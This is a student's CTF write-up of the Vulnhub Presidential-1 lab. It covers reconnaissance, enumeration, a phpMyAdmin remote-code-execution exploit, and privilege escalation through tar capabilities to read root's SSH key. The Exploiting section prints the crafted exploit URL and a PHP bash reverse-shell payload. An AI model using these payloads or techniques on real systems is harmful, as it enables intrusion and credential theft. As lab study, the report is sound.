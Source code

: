 # Report Cybersecurity : Presidential Hacking
Simone Cossaro IN2000201

## Introduction

This report presents the steps taken to solve the Vulnhub CTF (Capture the Flag) challange called Presidential-1. 

The attack was carried out following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

In the presented scenario the US state is developing the registration website for the presidential elections and wants to test the security of the server before the website and registration system are launched. One of the political parties is concerned that the other political party is going to perform electoral fraud by hacking into the registration system and falsifying the votes.

The goal of the challenge is to gain root access to the server.

## Tools

VirtualBox is the tool needed for this challenge to run the following two virtual machines:
* the Presidential VM available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
The two virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. The shell command `netdiscover` automates the process of discovering live hosts on a network. Executing it will first allow us to find out if the presidential machine is connected to the network and if so what its IP address is. 

Once the IP address of the machine has been determined, we proceed by trying to identify the services and open ports and the software versions on it. The `nmap` command allows us to do this.

![Steps of recognition](images/reconnaissance.png)  

The scan shows that the machine is running a web service on port 80 with http protocol and a remote shell on port 2082 with ssh protocol.

## Enumeration

By visiting the main page of the web service on port 80, you will find an email address at the bottom (contact@votenow.local). This way we get a domain name: votenow.local.
It's possible to associate the domain name with the IP address by adding a line to the /etc/hosts file.

In this enumeration phase, the use of Gobuster, a tool for scanning directories and files on web servers, is essential. It is used to locate hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but may still be accessible.
The gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist such as potential directory, file, subdomain, etc., until it finds valid resources or runs out of options.

![Steps of enumeration](images/enumeration.png)  

A config.php.bak file was detected. Usually these files contain a backup copy of the original config.php file. It in turn contains configuration information that may be important.
In fact, the file contains the user's credentials which could prove useful later.

## Exploiting

Using Gobuster, this time with the vhost option, subdomains can be found. With the dictionary used (/dirbuster/wordlists/directory-list-2.3-medium.txt) a single subdomain was found: datasafe.votenow.local.
On the web page that is obtained by connecting to the subdomain, there is an access panel to "phpMyAdmin". By entering the credentials obtained previously it is possible to log in and by navigating the page you can access a SQL database containing the hash of the password of an admin user.

The hash alone cannot be used. John the Ripper is a tool to use to crack the password. With the famous rockyou dictionary you can force the password corresponding to the hash, which turns out to be Stella.

Browsing the page another thing you can easily notice is that the version of phpMyAdmin is old. Searchsploit is a tool that can be used to search for known exploits and vulnerabilities in different versions of software and operating systems.
It turns out there are three vulnerabilities, one of which has command execution as impact. Searchsploit can give us more information about this vulnerability and how it can be exploited.
To exploit this vulnerability it is necessary to:
1) be authenticated
2) get the phpMyAdmin cookie
3) run a SQL query
4) edit the URL accurately.
Authentication was done with the credentials obtained previously.
The phpMyAdmin cookie can be obtained by using the browser inspector and seeing what the value of the cookie named phpMyAdmin is.
On the web page we are allowed to execute SQL queries.
The normal functioning of the web application does not allow the interpretation and execution of code inserted in the backticks. However, by carefully structuring the URL and inserting a php script between backticks into a SQL query, it is possible to obtain the execution of the script.
The URL must have the following format:
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/ php/session/sess_{cookieValue}
where {cookieValue} is the cookie value of a current session.

By listening to a netcat listener on port 443 and then injecting a SQL query like this:
select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'
and by structuring the URL in the way illustrated, you obtain a reverse shell on the presidential machine.

At this point you can authenticate with the admin user credentials extracted previously.


## Privilege Escalation

The next step is to list the capabilities associated with the available executable files with the getcap command. this way we see that we have "+EP" in the tarS binary. This binary allows us to compress any file on the system without being root. Therefore, once compressed, we will only have to decompress it to be able to read the contents of the file.
There is an id_rsa file in the /root/.ssh/ directory. This file usually contains an RSA private key used for SSH authentication. This private key is associated with a public/private key pair and is used to authenticate the user on remote servers via SSH.
By having '+ep' we can compress the “id_rsa“ file, decompress it and gain visibility to the content.

The tarS -xvf id_rsa.tar /root/.ssh/id_rsa command creates a tar archive called id_rsa.tar containing the id_rsa file present in the /root/.ssh/ directory.

The tar -xvf id_rsa.tar command, however, extracts the files from the id_rsa.tar archive.

After executing these two commands, the id_rsa file can be read.

Now having the RSA private key, we can remotely connect to the shell on the presidential machine via the ssh protocol.
